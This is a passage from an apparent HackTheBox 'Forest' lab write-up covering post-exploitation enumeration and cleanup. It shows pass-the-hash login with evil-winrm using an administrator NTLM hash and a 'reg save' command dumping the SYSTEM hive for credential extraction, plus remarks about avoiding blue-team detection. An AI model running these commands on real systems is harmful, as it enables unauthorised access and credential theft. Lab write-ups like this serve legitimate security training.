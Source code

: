 #### Administrator

At this point, this box is completely pwned but we can further enumerate the box to discover other users and more sensitive files. Below we find the user flag and we can see that there are two other users on the target machine. It appears that one of the users is a service account.

![Screenshot](/assets/images/2023-01-29-Forest-HTB-Writeup/Screenshot_20230129_233924.png)

### Machine Clean Up

While we are on HackTheBox we can walk away from these machines in their vulnerable state. On an actual assessment, it's very important to restore the services and security of a machine in the way that you found it. No one wants to be the person on the pentesting team that alerts the blue team or operations to their presence. Below are the steps to take to restore the machine. Once again, any EDR will most likely catch these actions and report them to the SOC, but you've already alerted them throughout this guide.

#### Extract Original Machine Password

To reset the machine account password back to when we started we must authenticate as the administrator of the target machine and dump the SAM SYSTEM and SECURITY registry files to a file that we can download over our connection. This process is documented below. ***Note: always delete flat files created by exploitation and enumeration on the system as soon as possible! You do not want SYSTEM and SAM sitting on the box.***

```powershell
evil-winrm -u administrator -i 10.10.10.161 --hash '32693b11e6aa90eb43d32c72a07ceea6'                                                                    

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> reg save hklm\system system
```